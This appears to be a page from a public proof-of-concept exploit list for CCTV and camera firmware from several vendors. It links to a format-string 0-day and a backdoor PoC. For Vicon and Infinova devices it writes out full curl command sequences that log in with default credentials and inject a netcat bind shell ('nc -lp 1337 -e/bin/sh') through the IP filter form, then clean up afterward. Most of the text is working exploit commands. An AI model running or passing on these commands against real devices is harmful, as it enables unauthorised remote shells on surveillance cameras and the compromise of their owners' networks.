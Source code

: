 https://github.com/mcw0/PoC/blob/master/Vitek_RCE_and_information_disclosure.txt

Remote Stack Format String in 'nsd' binary from multiple OEM (0-day)
---
2017-12-14

https://github.com/mcw0/PoC/blob/master/Remote_Stack_Format_String_multiple%20OEM.txt

Image here: http://62.43.36.107:50021/Public/CCTV/GWSecu/GWSecu%20Updater%20para%20c%C3%A1maras/Firmware%20para%20c%C3%A1mara%20domo/

non-crashing Format String Backdoor Proof of Concept
---
2017-12-05

https://github.com/mcw0/PoC/blob/master/tiny-w3-mcw.c

Vicon Security RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"
  
// Add to 'IP Filter' and execute

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"
  
// Disable 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"
  
// Remove from 'IP Filter'

curl --user ADMIN:1234 -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

Infinova RCE (authenticated)
---
2017-12-03

// Enable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=2"

// Add to 'IP Filter' and execute

curl --user admin:admin -v -X POST http://[IP:PORT]/form/AddIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"

// Disable 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/formChangeFirewallState -d "state=0"

// Remove from 'IP Filter'

curl --user admin:admin -v -X POST http://[IP:PORT]/form/DeleteIPFilter -d "list=2&type=1&filterIp=\$(nc -lp 1337 -e/bin/sh)"
